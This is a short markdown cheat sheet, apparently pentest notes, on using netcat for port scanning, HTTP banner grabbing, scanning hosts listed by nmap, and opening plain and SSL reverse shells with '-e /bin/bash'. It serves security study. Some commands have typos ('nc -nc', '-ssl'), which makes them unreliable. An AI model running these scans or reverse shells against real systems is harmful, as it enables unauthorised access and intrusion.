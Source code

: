 ## Netcat
Can be used for several thinks
- Port Scanning
- File Transfer
- Reverse Shells

### How to use
```bash
nc -h

l : Listening mode.
v : Verbose mode. Displays status messages in more detail.
n : Numeric-only IP address. No hostname resolution. DNS is not being used.
p : Port. Use to specify a particular port for listening.


nc -lvnp 1337
```

### Port Scanning
maybe slower than nmap, but can be used if nmap is not available

```sh
nc -nv -w 1 -z <target-ip> <port-range>

-nv # doesn't resolve hostnames
-w 1 # timeout after 1 second
-z # port scan (zero I/O mode, only scan for listening ports)
-u # UDP mode (unreliable) 
-vn # verbose and no DNS resolution

```
### Banner Grabbing

#### Netcat to use older HTTP Versions
```sh
nc -v <target-ip> 80
GET / HTTP/1.0

# with path
nc -v <target-ip> 80
GET /images HTTP/1.0
```

### Examples:

```bash
nc -nc -w 1 -z 192.234.1.1 1-1000

#scan more than one Host:
#1.
nmap 192.234.1.1/24 -sn -n -oG - | awk '/Up$/{print $2}' > ips.txt
#2.
while read ip; do nc -nv -w 1 -z $ip 80; done < ips.txt
```

### Reverse Shell
```sh
#Terminal Window 1
    nc -nvlp 1337 #listener
    
# Terminal Window 2
    nc -nv <target-ip> 1337 #connect to listener
    -e #execute command / standard is /bin/bash
```
#### Reverse Shell Encrypted
```sh
#Terminal Window 1
    nc -nvlp 1337 --ssl #listener encrypted
    
# Terminal Window 2
    nc -nv <target-ip> 1337 -ssl #connect to listener encrypted
```
